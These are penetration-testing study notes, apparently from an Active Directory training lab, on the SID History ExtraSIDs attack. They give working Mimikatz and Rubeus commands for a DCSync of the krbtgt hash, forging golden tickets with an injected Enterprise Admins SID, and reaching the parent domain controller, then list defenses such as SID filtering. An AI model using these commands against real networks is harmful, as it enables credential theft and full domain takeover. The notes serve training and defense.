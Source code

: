 
**I. SID History Primer**

**Purpose:**

- Used in Active Directory migrations to retain access to resources from the original domain after a user is migrated.

**Mechanism:**

- The original user's Security Identifier (SID) is stored in the `sidHistory` attribute of the new account in the target domain.

**Abuse Potential:**

- Attackers can inject privileged SIDs into the `sidHistory` attribute of a compromised account.
- This allows privilege escalation by impersonating high-privilege users or groups.

---

**II. ExtraSIDs Attack - Mimikatz**

**Concept:**

- Exploits the absence of SID filtering within an Active Directory forest to escalate privileges.
- Injects the SID of the **Enterprise Admins** group into a user's `sidHistory` attribute.
- Grants the attacker **Enterprise Admin** privileges within the parent domain.

**Requirements:**

- **KRBTGT** hash of the child domain.
- **SID** of the child domain.
- **Name of a target user** in the child domain (can be nonexistent).
- **FQDN** of the child domain.
- **SID of the Enterprise Admins group** in the parent domain.

**Attack Steps:**

1. **Obtain KRBTGT hash:**
    
    ```mimikatz
    lsadump::dcsync /user:LOGISTICS\krbtgt
    ```
    
2. **Retrieve Child Domain SID:**
    
    ```powershell
    Get-DomainSID
    ```
    
3. **Retrieve Enterprise Admins SID:**
    
    ```powershell
    Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
    ```
    
    OR
    
    ```powershell
    Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"
    ```
    
4. **Execute ExtraSIDs Attack using Mimikatz:**
    
    ```mimikatz
    kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
    ```
    
5. **Verify the Ticket:**
    
    ```cmd
    klist
    ```
    
6. **Access Parent Domain Resources:**
    
    ```cmd
    dir \\academy-ea-dc01.inlanefreight.local\c$
    ```
    

---

**III. ExtraSIDs Attack - Rubeus**

**Concept:**

- An alternative method for executing the ExtraSIDs attack.

**Attack Steps:**

1. **Gather Required Data (Same as Mimikatz).**
2. **Perform ExtraSIDs Attack using Rubeus:**
    
    ```cmd
    .\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
    ```
    
3. **Verify Ticket in Memory:**
    
    ```cmd
    klist
    ```
    
4. **Perform DCSync Attack or Other Privileged Actions:**
    
    ```mimikatz
    lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL
    ```
    

---

**IV. Security Considerations & Defense Strategies**

- **Enable SID Filtering:**
    - Prevents SID injection across trusts.
    - Command:
        
        ```cmd
        netdom trust TrustingDomain /domain:TrustedDomain /quarantine:yes
        ```
        
- **Monitor for Unauthorized SID History Modifications:**
    - Track changes in event logs (`Event ID 4765` & `4766`).
- **Restrict Privileged Group Membership:**
    - Minimize Enterprise Admins and Domain Admins group membership.
- **Implement Tiered Administration Model:**
    - Reduce exposure of high-privilege accounts to compromise.
- **Regularly Audit Trust Relationships:**
    - Identify and remediate unnecessary or insecure trusts.

By understanding and securing against SID History and ExtraSIDs abuse, organizations can reduce the risk of privilege escalation and domain compromise.